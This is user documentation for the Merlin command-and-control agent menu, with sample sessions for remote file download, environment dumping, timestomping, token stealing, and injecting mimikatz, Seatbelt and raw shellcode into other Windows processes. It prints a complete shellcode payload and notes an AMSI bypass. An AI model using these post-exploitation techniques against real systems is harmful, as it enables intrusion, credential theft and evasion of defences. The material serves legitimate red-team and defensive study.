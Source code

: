 ###########
Agent Menu
###########

The agent menu context is used to interact with a single agent. The Merlin prompt will include the word ``agent`` along with the identifier for the selected agent. Type ``help`` to see a list of available commands for the agent menu context.

help
----

.. note::
    The help menu will only show commands available to agent depending on its operating system

* :ref:`help core`
* linux_
* :ref:`help windows`

.. _help core:

core
^^^^

The ``core`` commands are available to every agent regardless of which operating system they are running on

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» help

      COMMAND  |          DESCRIPTION           |            OPTIONS
    +----------+--------------------------------+--------------------------------+
      cd       | Change directories             | cd ../../ OR cd c:\\Users
      clear    | Clear any UNSENT jobs from the |
               | queue                          |
      back     | Return to the main menu        |
      download | Download a file from the agent | download <remote_file>
      env      | View and modify environment    | env <get | set | unset |
               | variables                      | showall> [variable] [value]
      exit     | Instruct the agent to exit and |
               | quit running                   |
      group    | Add or remove the current      | group <add | remove> <group
               | agent to/from a group          | name>
      ifconfig | Displays host network adapter  |
               | information                    |
      interact | Interact with an agent         |
      info     | Display all information about  |
               | the agent                      |
      ja3      | Set the agent's JA3 client     | ja3 <ja3 signature string>
               | signature                      |
      jobs     | Display all active jobs for    |
               | the agent                      |
      kill     | Kill a running process by its  | kill <pid>
               | numerical identifier (pid)     |
      killdate | Set the epoch date/time the    | killdate <epoch date>
               | agent will quit running        |
      ls       | List directory contents        | ls /etc OR ls C:\\Users OR ls
               |                                | C:/Users
      main     | Return to the main menu        |
      maxretry | Set the maximum amount of      | maxretery <number>
               | times the agent can fail to    |
               | check in before it dies        |
      note     | Add a server-side note to the  |
               | agent                          |
      nslookup | DNS query on host or ip        | nslookup 8.8.8.8
      padding  | Set the maximum amount of      | padding <number>
               | random data appended to every  |
               | message                        |
      printenv | Print all environment          | printenv
               | variables. Alias for "env      |
               | showall"                       |
      pwd      | Display the current working    | pwd
               | directory                      |
      quit     | Exit and close the Merlin      | -y
               | server                         |
      rm       | Remove, or delete, a file      | <file path>
      run      | Execute a program directly,    | run ping -c 3 8.8.8.8
               | without using a shell          |
      sessions | Display a table of information |
               | about all checked-in agent     |
               | sessions                       |
      sdelete  | Securely delete a file         | sdelete <file path>
      shell    | Execute a command on the agent | shell ping -c 3 8.8.8.8
               | using the host's default shell |
      skew     | Set the amount of skew, or     | skew <number>
               | jitter, that an agent will use |
               | to checkin                     |
      sleep    | Set the agent's sleep interval | sleep 30s
               | using Go time format           |
      status   | Print the current status of    |
               | the agent                      |
      touch    | Match destination file's       | touch <source> <destination>
               | timestamps with source file    |
               | (alias timestomp)              |
      upload   | Upload a file to the agent     | upload <local_file>
               |                                | <remote_file>
     !         | Execute a command on the host  | !<command> <args>
               | operating system               |

.. _help linux:

linux
^^^^^

These commands are only available to agents running on a ``Linux`` operating system.

.. code-block:: text

           COMMAND      |          DESCRIPTION           |            OPTIONS
    +-------------------+--------------------------------+--------------------------------+
               memfd    | Execute Linux file in memory   | <file path> [<arguments>]

.. _help windows:

windows
^^^^^^^

These commands are only available to agents running on a ``Windows`` operating system.

.. code-block:: text

           COMMAND      |          DESCRIPTION           |            OPTIONS
    +-------------------+--------------------------------+--------------------------------+
      execute-assembly  | Execute a .NET 4.0 assembly    | execute-assembly <assembly
                        |                                | path> [<assembly args>
                        |                                | <spawnto path> <spawnto args>]
      execute-pe        | Execute a Windows PE (EXE)     | execute-pe <pe path> [<pe
                        |                                | args> <spawnto path> <spawnto
                        |                                | args>]
      execute-shellcode | Execute shellcode              | self, remote <pid>,
                        |                                | RtlCreateUserThread <pid>
      invoke-assembly   | Invoke, or execute, a .NET     | <assembly name> <assembly
                        | assembly that was previously   | args>
                        | loaded into the agent's        |
                        | process                        |
      load-assembly     | Load a .NET assembly into the  | <assembly path> [<assembly
                        | agent's process                | name>]
      list-assemblies   | List the .NET assemblies that  |
                        | are loaded into the agent's    |
                        | process                        |
      netstat           | display network connections    | netstat [-p tcp|udp]
      pipes             | Enumerate all named pipes      |
      ps                | Get a list of running          |
                        | processes                      |
      runas             | Run a program as another user  | <DOMAIN\USER> <password>
                        |                                | <program> [<args>]
      token             | Interact with Windows access   | <make | privs | rev2self |
                        | tokens                         | steal | whoami >
      sharpgen          | Use SharpGen to compile and    | sharpgen <code> [<spawnto
                        | execute a .NET assembly        | path> <spawnto args>]
      uptime            | Retrieve the host's uptime

.. _cd:

cd
--

The ``cd`` command is used to change the current working directory the Merlin agent is using. Relative paths can be used (e.g.,. ``./../`` or ``downloads\\Merlin``). This command uses native Go and will not execute the ``cd`` binary program found on the host operating system.

| The ``\`` in a Windows directory must be escaped like ``C:\\Windows\\System32``.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» cd /usr/bin
    [-]Created job evtawDqBWa for agent a98e6175-7799-47fb-abf0-32534a9191f0 at 2019-02-27T01:03:57Z
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [+]Results for job evtawDqBWa at 2019-02-27T01:03:59Z
    Changed working directory to /usr/bin

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» cd "C:\\Program Files (x86)\\"
    [-]Created job gwFQhcsKJi for agent c1090dbc-f2f7-4d90-a241-86e0c0217786 at 2019-02-27T01:17:26Z
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [+]Results for job gwFQhcsKJi at 2019-02-27T01:17:30Z
    Changed working directory to C:\Program Files (x86)

clear
-----

The ``clear`` command will cancel all jobs in the queue that have not been sent to the agent yet.
This command will only clear jobs for the current agent.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» clear
    [+] jobs cleared for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

back
----

The ``back`` command is used to leave the Agent menu and return back to the :doc:`main`.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» back
    Merlin»

.. _download:

download
--------

The ``download`` command is used to download a file from the host where the agent is running back to the Merlin server. The file will be automatically saved in a folder with a name of the agent's identifier in the `data\agents\c1090dbc-f2f7-4d90-a241-86e0c0217786` directory.

.. note::
    Because ``\`` is used to escape a character, file paths require two (e.g., ``C:\\Windows``)

.. note::
    Enclose file paths containing a space with quotation marks (e.g.,. ``"C:\\Windows\\Program Files\\"``)

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» download C:\\Windows\\hh.exe
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [-]Created job NXnhJVRUSP for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [+]Results for job NXnhJVRUSP
    [+]Successfully downloaded file C:\Windows\hh.exe with a size of 17920 bytes from agent to C:\merlin\data\agents\c1090dbc-f2f7-4d90-a241-86e0c0217786\hh.exe
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»

env
---

The ``env`` command is used to interact with environment variables and has the following methods:
  * get_
  * :ref:`env set`
  * showall_
  * unset_

get
^^^

The ``env get`` command is used to retrieve the value of an existing environment variable.
The third, or last, argument is the name of environment variable to retrieve.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» env get TEST1
    [-] Created job xaSqAdQBXs for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job xaSqAdQBXs for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+]
    Environment variable TEST1=TESTINGTEST

.. _env set:

set
^^^

The ``env set`` command is used create, or overwrite, an environment variable with the specified value.
The third argument is the name of the environment variable and the fourth argument is the environment variables value.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» env set TEST1 TESTINGTEST
    [-] Created job NcyukONetb for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job NcyukONetb for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+]
    Set environment variable: TEST1=TESTINGTEST

showall
^^^^^^^

The ``env showall`` command enumerates and return all environment variables:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» env showall
    [-] Created job NzbQEytJpY for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job NzbQEytJpY for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+]
    Environment variables:
    SHELL=/bin/bash
    SESSION_MANAGER=local/ubuntu:@/tmp/.ICE-unix/3195,unix/ubuntu:/tmp/.ICE-unix/3195
    QT_ACCESSIBILITY=1
    SNAP_REVISION=148
    XDG_CONFIG_DIRS=/etc/xdg/xdg-ubuntu:/etc/xdg
    XDG_MENU_PREFIX=gnome-
    GNOME_DESKTOP_SESSION_ID=this-is-deprecated
    SNAP_REAL_HOME=/home/rastley
    GNOME_SHELL_SESSION_MODE=ubuntu
    SSH_AUTH_SOCK=/run/user/1000/keyring/ssh

unset
^^^^^

The ``env unset`` command clears, or empties, the environment variable name provided in the third argument:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» env unset TEST1
    [-] Created job hEYjNYeniT for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job hEYjNYeniT for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+]
    Unset environment variable: TEST1

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» env get TEST1
    [-] Created job IhKdCrKHEr for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job IhKdCrKHEr for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+]
    Environment variable TEST1=


exit
----

The ``exit`` control type instructs the agent to exit or die. There is no response on the CLI after the instruction has been provided to the agent. This command is also an alias for agent -> control -> <agent ID> -> exit. This is the shortest way to quickly kill an agent.
 The command will prompt for confirmation to prevent accidentally exiting the agent. If you are certain use the `-y` flag to skip confirmation.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» exit

    are you sure that you want to exit the agent? [yes/NO]:
    yes
    Merlin»
    [-] Created job LHhrzSYuGS for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

.. _execute-assembly:

execute-assembly
-----------------

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

The ``execute-assembly`` command uses `go-donut <https://github.com/Binject/go-donut>`_ to convert a .NET assembly into shellcode and then uses the ``windows/x64/go/exec/createProcess`` Merlin module to execute the shellcode.

Currently this command only supports .NET v4.0 assemblies. For more granular control, use the ``windows/x64/go/exec/donut`` module.

The command is executed as: ``execute-assembly <assembly path> [<assembly args> <spawnto path> <spawnto args>]``

The command requires the file path to the assembly you wish to execute in the ``<assembly path>`` argument. All other arguments are optional. The ``<spawnto path>`` argument is the process that will be started on the target and where the shellcode will be injected and executed. If a ``<spawnto path>`` is not provided, ``C:\WIndows\System32\dllhost.exe`` will be used. The ``<spawnto args>`` value is used as an argument when starting the spawnto process.

.. note::
    Because ``\`` is used to escape a character, file paths require two (e.g., ``C:\\Windows``)

.. note::
    Use quotes to enclose multiple arguments for ``<assembly args>`` (e.g., ``execute-assembly Seatbelt.exe "LocalGroups LocalUsers"``)

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» execute-assembly Seatbelt.exe "DotNet IdleTime" "C:\\Windows\\System32\\WerFault.exe" /?
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»
    [-] Created job dmAfzDPUsM for agent c1090dbc-f2f7-4d90-a241-86e0c0217786


    [+] Results for c1090dbc-f2f7-4d90-a241-86e0c0217786 job dmAfzDPUsM



                            %&&@@@&&
                            &&&&&&&%%%,                       #&&@@@@@@%%%%%%###############%
                            &%&   %&%%                        &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
    %%%%%%%%%%%######%%%#%%####%  &%%**#                      @////(((&%%%%%%######################(((((((((((((((((((
    #%#%%%%%%%#######%#%%#######  %&%,,,,,,,,,,,,,,,,         @////(((&%%%%%#%#####################(((((((((((((((((((
    #%#%%%%%%#####%%#%#%%#######  %%%,,,,,,  ,,.   ,,         @////(((&%%%%%%%######################(#(((#(#((((((((((
    #####%%%####################  &%%......  ...   ..         @////(((&%%%%%%%###############%######((#(#(####((((((((
    #######%##########%#########  %%%......  ...   ..         @////(((&%%%%%#########################(#(#######((#####
    ###%##%%####################  &%%...............          @////(((&%%%%%%%%##############%#######(#########((#####
    #####%######################  %%%..                       @////(((&%%%%%%%################
                            &%&   %%%%%      Seatbelt         %////(((&%%%%%%%%#############*
                            &%%&&&%%%%%        v1.1.0         ,(((&%%%%%%%%%%%%%%%%%,
                             #%%%%##,


    ====== DotNet ======

      Installed CLR Versions
          2.0.50727
          4.0.30319

      Installed .NET Versions
          3.5.30729.4926
          4.8.03752

      Anti-Malware Scan Interface (AMSI)
          OS supports AMSI           : True
         .NET version support AMSI   : True
            [!] The highest .NET version is enrolled in AMSI!
            [*] You can invoke .NET version 3.5 to bypass AMSI.
    ====== IdleTime ======

      CurrentUser : DESKTOP-H35RK21\rastley
      Idletime    : 00h:06m:02s:766ms (362766 milliseconds)



    [*] Completed collection in 0.122 seconds

.. _execute-pe:

execute-pe
-----------------

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

The ``execute-pe`` command uses `go-donut <https://github.com/Binject/go-donut>`_ to convert a Windows Portable Executable (PE), commonly an .exe, into shellcode and then uses the ``windows/x64/go/exec/createProcess`` Merlin module to execute the shellcode.

The command is executed as: ``execute-pe <pe path> [<pe args> <spawnto path> <spawnto args>]``

The command requires the file path to the PE you wish to execute in the ``<pe path>`` argument. All other arguments are optional. The ``<spawnto path>`` argument is the process that will be started on the target and where the shellcode will be injected and executed. If a ``<spawnto path>`` is not provided, ``C:\WIndows\System32\dllhost.exe`` will be used. The ``<spawnto args>`` value is used as an argument when starting the spawnto process.

.. note::
    Because ``\`` is used to escape a character, file paths require two (e.g., ``C:\\Windows``)

.. note::
    Use quotes to enclose multiple arguments for ``<pe args>`` (e.g., ``execute-pe mimikatz.exe "coffee exit"``)

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» execute-pe mimikatz.exe "coffee exit" C:\\Windows\\System32\\WerFault.exe Testing
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»
    [-] Created job BSvJZFvbRZ for agent c1090dbc-f2f7-4d90-a241-86e0c0217786


    [+] Results for c1090dbc-f2f7-4d90-a241-86e0c0217786 job BSvJZFvbRZ


      .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
     .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
     ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
     ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
     '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
      '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

    mimikatz(commandline) # coffee

        ( (
         ) )
      .______.
      |      |]
      \      /
       `----'

    mimikatz(commandline) # exit
    Bye!


.. _execute-shellcode:

execute-shellcode
-----------------

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

The ``execute-shellcode`` command is used to have the Agent execute the provided shellcode. This command became available in version ``0.6.4`` and is only supported for Windows agents.

The ``execute-shellcode`` command takes the shellcode you want to execute at the last argument. Shellcode can be provided using an absolute filepath or by pasting it directly into the terminal in one of the following formats:
  * Hex (e.g.,. `5051525356`)
  * ``0x50, 0x51, 0x52, 0x53, 0x56`` with or without spaces and commas
  * ``\x50\x51\x52\x53\x56``
  * Base64 encoded version of the above formats
  * A file containing any of the above formats or just a raw byte file

.. warning::
    Shellcode injection and execution could cause a process to crash so choose wisely

.. note::
    If Cobalt Strike's Beacon is injected using one of these methods, exiting the Beacon will cause the process to die too.

The agent can execute shellcode using one of the following methods:
  * self_
  * remote_
  * RtlCreateUserThread_
  * UserAPC_

.. _self:

self
^^^^

The ``self`` method allocates space within the Merlin Agent process and executes the shellcode.

Syntax is ``execute-shellcode self <SHELLCODE>``

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» execute-shellcode self 505152535657556A605A6863616C6354594883EC2865488B32488B7618488B761048AD488B30488B7E3003573C8B5C17288B741F204801FE8B541F240FB72C178D5202AD813C0757696E4575EF8B741F1C4801FE8B34AE4801F799FFD74883C4305D5F5E5B5A5958C3
    [-]Created job joQNJONrEK for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [+]Results for job joQNJONrEK
    [+]Shellcode executed successfully


remote
^^^^^^

The ``remote`` method creates a thread in another process using the `CreateRemoteThreadEx <https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createremotethreadex>`_ Windows API call.

Syntax is ``execute-shellcode remote <PID> <SHELLCODE>`` where PID is the Process ID you want to execute the shellcode under.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» execute-shellcode remote 6560 0x50, 0x51, 0x52, 0x53, 0x56, 0x57, 0x55, 0x6A, 0x60, 0x5A, 0x68, 0x63, 0x61, 0x6C, 0x63, 0x54, 0x59, 0x48, 0x83, 0xEC, 0x28, 0x65, 0x48, 0x8B, 0x32, 0x48, 0x8B, 0x76, 0x18, 0x48, 0x8B, 0x76, 0x10, 0x48, 0xAD, 0x48, 0x8B, 0x30, 0x48, 0x8B, 0x7E, 0x30, 0x03, 0x57, 0x3C, 0x8B, 0x5C, 0x17, 0x28, 0x8B, 0x74, 0x1F, 0x20, 0x48, 0x01, 0xFE, 0x8B, 0x54, 0x1F, 0x24, 0x0F, 0xB7, 0x2C, 0x17, 0x8D, 0x52, 0x02, 0xAD, 0x81, 0x3C, 0x07, 0x57, 0x69, 0x6E, 0x45, 0x75, 0xEF, 0x8B, 0x74, 0x1F, 0x1C, 0x48, 0x01, 0xFE, 0x8B, 0x34, 0xAE, 0x48, 0x01, 0xF7, 0x99, 0xFF, 0xD7, 0x48, 0x83, 0xC4, 0x30, 0x5D, 0x5F, 0x5E, 0x5B, 0x5A, 0x59, 0x58, 0xC3
    [-]Created job PRumZQYBFR for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [+]Results for job PRumZQYBFR
    [+]Shellcode executed successfully

.. _RtlCreateUserThread:

RtlCreateUserThread
^^^^^^^^^^^^^^^^^^^

The ``rtlcreateuserthread`` method creates a thread in another process using the undocumented `RtlCreateUserThread <http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FExecutable%20Images%2FRtlCreateUserThread.html>`__ Windows API call.

Syntax is ``execute-shellcode rtlcreateuserthread <PID> <SHELLCODE>`` where PID is the Process ID you want to execute the shellcode under.

Example:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» execute-shellcode RtlCreateUserThread 6560 \x50\x51\x52\x53\x56\x57\x55\x6A\x60\x5A\x68\x63\x61\x6C\x63\x54\x59\x48\x83\xEC\x28\x65\x48\x8B\x32\x48\x8B\x76\x18\x48\x8B\x76\x10\x48\xAD\x48\x8B\x30\x48\x8B\x7E\x30\x03\x57\x3C\x8B\x5C\x17\x28\x8B\x74\x1F\x20\x48\x01\xFE\x8B\x54\x1F\x24\x0F\xB7\x2C\x17\x8D\x52\x02\xAD\x81\x3C\x07\x57\x69\x6E\x45\x75\xEF\x8B\x74\x1F\x1C\x48\x01\xFE\x8B\x34\xAE\x48\x01\xF7\x99\xFF\xD7\x48\x83\xC4\x30\x5D\x5F\x5E\x5B\x5A\x59\x58\xC3
    [-]Created job CCWrmdLIFQ for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [+]Results for job CCWrmdLIFQ
    [+]Shellcode executed successfully

UserAPC
^^^^^^^

.. _UserAPC:

The ``userapc`` method creates a thread in another process using the `QueueUserAPC <https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-queueuserapc>`__ Windows API call.

Syntax is ``execute-shellcode userapc <PID> <SHELLCODE>`` where PID is the Process ID you want to execute the shellcode under.

.. note::
    This method is highly unstable and therefore was intentionally not added to the tab completion list of available methods. The current implementation requires the process to have more than 1 thread. All remaining threads will have a user-mode APC queued to execute the shellcode and could result in multiple instances of execution. This method frequently causes processes to crash. Additionally, the shellcode might not execute at all if none of the threads were in an alertable state. The ``svchost.exe`` process usually provides a little better choice, but still not guaranteed.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» execute-shellcode userapc 4824 /home/rickastley/calc.bin
    [-]Created job NPQGRntaQX for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [+]Results for job NPQGRntaQX
    [+]Shellcode executed successfully

group
-----

The ``group`` command interacts with server-side groups that agents can be added to and removed from.
Arbitrary agent commands and modules can be executed against an entire group at one time.

* :ref:`agentgroup add`
* :ref:`agentgroup remove`

.. _agentgroup add:

add
^^^

The ``group add`` command adds the current agent to a named group. If the group name does not exist, it will be created.
The list of available agents can be tab completed.

``group add <GroupName>``

.. code-block:: text

    Merlin[agent][336154be-9ab9-4add-96e6-69c79f1ce77d]» group add EvilCorp
    [i] Agent 336154be-9ab9-4add-96e6-69c79f1ce77d added to group EvilCorp
    Merlin[agent][336154be-9ab9-4add-96e6-69c79f1ce77d]» group add Workstations
    [i] Agent 336154be-9ab9-4add-96e6-69c79f1ce77d added to group Workstations
    Merlin[agent][336154be-9ab9-4add-96e6-69c79f1ce77d]» info

      Status                         | Active
      ID                             | 336154be-9ab9-4add-96e6-69c79f1ce77d
                    <SNIP>
      Groups                         | EvilCorp, Workstations
      Note                           |

.. _agentgroup remove:

remove
^^^^^^

The ``group remove`` command is used to remove an agent from a named group. The list of ALL agents is tab completable
but does not mean the agent is in the group. The list of existing groups can also be tab completed.

``group remove <agentID> <GroupName>``

.. code-block:: text

    Merlin» group remove 99dbe632-984c-4c98-8f38-11535cb5d937 EvilCorp
    Merlin»
    [i] Agent 99dbe632-984c-4c98-8f38-11535cb5d937 removed from group EvilCorp

ifconfig
--------

The ``ifconfig`` command will enumerate all of the host's network interfaces and return their configuration.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»
    [-] Created job SEbZZEzGeH for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [-] Results job SEbZZEzGeH for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Ethernet0
      MAC Address   00:0c:29:04:29:9d
      IP Address    192.168.1.132
      Subnet Mask   255.255.255.0
      Gateway       192.168.153.2
      DHCP          Enabled
      DHCP Server:  192.168.1.254

    Bluetooth Network Connection
      MAC Address   f4:02:28:35:ae:b6
      IP Address    0.0.0.0
      Subnet Mask   0.0.0.0
      Gateway       0.0.0.0
      DHCP          Enabled
      DHCP Server:


info
----

The ``info`` command is used to get information about a specific agent to include its configuration and environment.

* Status - The agent's current communication status of either active, delayed, or dead
* ID - The agent's unique identifier that is generated on execution
* Platform - The operating system and architecture the agent is running on
* User Name - The user name the agent is currently running as
* User GUID - The unique identifier for the user the agent is currently running as
* Hostname - The name of the compromised host where the agent is currently running
* Process Name - The name of the process the agent is currently running in
* Process ID - The numerical Process ID (PID) that the agent is currently running in
* IP - A list of interface IP addresses for where the agent is currently running
* Initial Check In - The date and time the agent first connected to the server
* Last Check In - The date and time the agent last connected to the server followed by the relative amount of time in parenthesis
* Groups - Any server-side groups the agent is a member of
* Note - Any operator generated notes about the agent
* Agent Version - The version number of the running agent
* Agent Build - A hash of the git commit the agent was built from
* Agent Wait Time - The amount of time the agent waits, or sleeps, between checkins
* Agent Wait Time Skew - The amount of skew multiplied to the agent wait time
* Agent Message Padding Max - The maximum amount of random data appended to every message to/from the agent
* Agent Max Retries - The maximum amount of times an agent can fail to check in before it quits running
* Agent Failed Check In - The total number of failed check in attempts
* Agent Kill Date - The date the agent will quit running. ``1970-01-01T00:00:00Z`` signifies that the kill date is not set
* Agent Communication Protocol - The protocol the agent is currently communicating over
* Agent JA3 TLS Client Signature - The JA3 client signature. If empty then the default Merlin signature is being used

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» info

      Status                         | Active
      ID                             | c1090dbc-f2f7-4d90-a241-86e0c0217786
      Platform                       | linux/amd64
      User Name                      | rastley
      User GUID                      | 1000
      Hostname                       | ubuntu
      Process Name                   | /tmp/go-build799148624/b001/exe/main
      Process ID                     | 200769
      IP                             | 127.0.0.1/8 ::1/128
                                     | 192.168.1.2/24
                                     | fe80::b7bb:3953:682e:cb7f/64
      Initial Check In               | 2021-08-02T23:56:10Z
      Last Check In                  | 2021-08-03T00:18:55Z (0:00:05
                                     | ago)
      Groups                         |
      Note                           |
                                     |
      Agent Version                  | 1.0.2
      Agent Build                    | nonRelease
      Agent Wait Time                | 10s
      Agent Wait Time Skew           | 3000
      Agent Message Padding Max      | 4096
      Agent Max Retries              | 7
      Agent Failed Check In          | 0
      Agent Kill Date                | 1970-01-01T00:00:00Z
      Agent Communication Protocol   | h2
      Agent JA3 TLS Client Signature |

interact
--------

The ``interact`` command takes one argument, the agent ID, and is used to switch agents and interact with a different, specified agent.

.. note::
    Use the built-in tab completion to cycle through and select the agent to interact with.

.. code-block:: text

    Merlin[agent][c22c435f-f7c4-445b-bcd4-0d4e020645af]» interact d07edfda-e119-4be2-a20f-918ab701fa3c
    Merlin[agent][d07edfda-e119-4be2-a20f-918ab701fa3c]»

.. _invoke-assembly:

invoke-assembly
---------------

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

